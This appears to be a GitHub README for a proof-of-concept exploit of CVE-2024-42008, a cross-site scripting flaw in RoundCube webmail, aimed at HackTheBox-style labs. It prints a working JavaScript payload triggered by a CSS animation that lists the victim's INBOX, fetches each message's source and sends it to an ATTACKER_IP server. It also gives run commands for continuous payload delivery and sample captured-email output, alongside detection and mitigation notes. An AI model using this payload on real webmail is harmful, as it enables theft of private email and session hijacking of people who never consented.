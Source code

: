 # CVE-2024-42008 RoundCube XSS Exploit

## Overview

This repository contains a proof-of-concept exploit for **CVE-2024-42008**, a Cross-Site Scripting (XSS) vulnerability in RoundCube webmail application. This exploit is designed for educational purposes and controlled penetration testing environments like HackTheBox.

## Vulnerability Details

### CVE-2024-42008 Summary
- **CVE ID**: CVE-2024-42008
- **Type**: Cross-Site Scripting (XSS)
- **CVSS Score**: High
- **Affected Versions**: 
  - RoundCube ≤ 1.5.7
  - RoundCube 1.6.x ≤ 1.6.7
- **Fixed Versions**: 1.5.8, 1.6.8+

### Technical Details

The vulnerability exists in `rcmail_action_mail_get->run()` and allows remote attackers to execute arbitrary JavaScript in victims' browsers. The flaw stems from insufficient input validation when processing email content, particularly in handling CSS animations and JavaScript execution contexts.

**Key Attack Vector:**
- Malicious HTML content injected via contact forms or email messages
- CSS animation properties used to trigger JavaScript execution
- `onanimationstart` event handlers bypass content filters
- JavaScript payload executes in the context of the webmail application

### Impact

Successful exploitation allows attackers to:
- **Steal victim's emails** from INBOX and other folders
- **Exfiltrate email metadata** (UIDs, message lists)
- **Access email source code** and attachments
- **Send emails** from victim's account
- **Harvest login credentials** and session tokens
- **Perform actions** on behalf of the victim

## Exploit Script Analysis

### Script Architecture

The exploit consists of three main components:

1. **XSS Payload Delivery**: Sends malicious HTML via contact form
2. **HTTP Server**: Listens for exfiltrated data
3. **Data Processing**: Captures and logs stolen emails

### Payload Breakdown

```javascript
// The core XSS payload uses CSS animations to trigger JavaScript
<body title="bgcolor=foo" name="bar style=animation-name:progress-bar-stripes onanimationstart=
  // 1. Fetch email list from victim's INBOX
  fetch('/?_task=mail&_action=list&_mbox=INBOX&_page=&_remote=1')
  .then(r=>r.text())
  .then(t=>{
    // 2. Extract email UIDs using regex
    [...t.matchAll(/this\\.add_message_row\\((\\d+),/g)].forEach(m=>{
      // 3. For each email, fetch full source
      fetch(`/?_task=mail&_uid=${m[1]}&_mbox=INBOX&_action=viewsource`)
      .then(r=>r.text())
      .then(data=>{
        // 4. Exfiltrate email data to attacker server
        fetch(`http://ATTACKER_IP:PORT/?data=${encodeURIComponent(data)}`)
      })
    })
  })
; foo=bar">
```

### Key Features

- **Continuous Operation**: Can send payloads at regular intervals
- **Stealth Mode**: Minimal footprint and error handling
- **Data Logging**: Automatic capture and storage of exfiltrated emails
- **Debug Mode**: Proxy support for traffic analysis
- **Configurable**: Multiple command-line options

## Usage

### Prerequisites
```bash
pip install requests
```

### Basic Usage
```bash
# Single payload delivery
python cve-2024-42008-exploit.py

# Continuous mode (every 30 seconds)
python cve-2024-42008-exploit.py -c

# Custom interval (every 60 seconds)
python cve-2024-42008-exploit.py -c -i 60

# Debug mode with proxy
python cve-2024-42008-exploit.py -d
```

### Configuration

Edit the script to configure:
- `ATTACKER_IP`: Your listening server IP
- `ATTACKER_PORT`: Port for receiving exfiltrated data
- `RECIPIENT_EMAIL`: Target email address
- `TARGET_URL`: Vulnerable RoundCube instance
- `PROXY`: Proxy server for debugging (Burp Suite/Caido)

### Command Line Options

| Option | Description |
|--------|-------------|
| `-d, --debug` | Enable debug mode with proxy support |
| `-c, --continuous` | Send payloads continuously |
| `-i, --interval` | Interval between payloads (default: 30s) |

## Attack Flow

1. **Payload Injection**: Script sends malicious HTML via contact form
2. **Email Delivery**: Vulnerable RoundCube processes and delivers email
3. **Victim Interaction**: User opens/views the malicious email
4. **XSS Execution**: CSS animation triggers JavaScript payload
5. **Data Exfiltration**: JavaScript steals emails and sends to attacker
6. **Data Capture**: Exploit server receives and logs stolen data

## Detection and Mitigation

### For Defenders

**Detection Indicators:**
- Unusual CSS animation properties in email content
- `onanimationstart` event handlers in HTML
- Suspicious JavaScript in email messages
- Outbound requests to unknown domains from webmail
- Repeated contact form submissions

**Mitigation Strategies:**
- Update RoundCube to version 1.5.8 or 1.6.8+
- Implement Content Security Policy (CSP)
- Enable email content filtering
- Monitor for suspicious outbound traffic
- Regular security audits of webmail configurations

### For Penetration Testers

**Testing Considerations:**
- Ensure proper authorization before testing
- Document all activities for reporting
- Test in isolated environments only
- Verify target is intentionally vulnerable
- Follow responsible disclosure practices

## Legal and Ethical Considerations

⚠️ **WARNING**: This exploit is provided for educational and authorized testing purposes only.

- Only use on systems you own or have explicit permission to test
- Designed for HackTheBox and similar learning platforms
- Unauthorized use may violate local and international laws
- Always follow responsible disclosure practices
- Respect privacy and data protection regulations

## Technical References

- [CVE-2024-42008 Official Entry](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-42008)
- [RoundCube Security Advisory](https://roundcube.net/news/2024/08/04/security-updates-1.6.8-and-1.5.8)
- [CWE-79: Cross-site Scripting](https://cwe.mitre.org/data/definitions/79.html)

## Output Example

```
[+] Listening on 10.10.14.209:8001 for exfiltrated data...
[2024-07-09 10:30:15] POST Request Sent! Status Code: 200

[+] 📩 Captured Email Data:
Return-Path: <admin@drip.htb>
Received: from localhost (localhost [127.0.0.1])
...
[Email content]
--------------------------------------------------
[+] 🔥 Email data saved to emails.log
```

## Disclaimer

This code is provided for educational purposes and authorized penetration testing only. The authors are not responsible for any misuse or damage caused by this software. Always ensure you have proper authorization before testing any system.
